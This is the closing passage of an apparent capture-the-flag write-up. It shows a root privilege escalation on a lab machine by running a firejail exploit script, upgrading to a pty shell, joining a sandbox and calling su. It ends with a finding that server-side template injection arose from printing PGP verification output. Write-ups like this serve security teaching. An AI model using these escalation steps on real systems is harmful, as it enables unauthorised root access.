 As `silentobserver`, set permissions on the exploit.
```
chmod 777 /tmp/xa/firejail-expl.py
```

On the first `atlas` shell, upgrade to an interactive shell and run the exploit.
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 /tmp/xa/firejail-expl.py
```

<img src="images/root/atlas_run_exploit.png" alt="output of firejail exploit" width="50%" height="50%"> <br>

On the second `atlas` shell, join the container specified in the command and then run `su` to obtain root.
```
firejoin --join=3204
```
<img src="images/root/atlas_root.png" alt="root shell" width="35%" height="35%"> <br>

Root flag is located at `/root/root.txt`.

## Findings and Recommendations
**Server-Side Template Injection**

Examination of `app.py` indicates that displaying the full output (`verified.stderr`) of the PGP signature verification provided the avenue for a low-privilege shell as `atlas`. Showing only the key's fingerprint (`fp`) can communicate the results without the possibility of code execution.
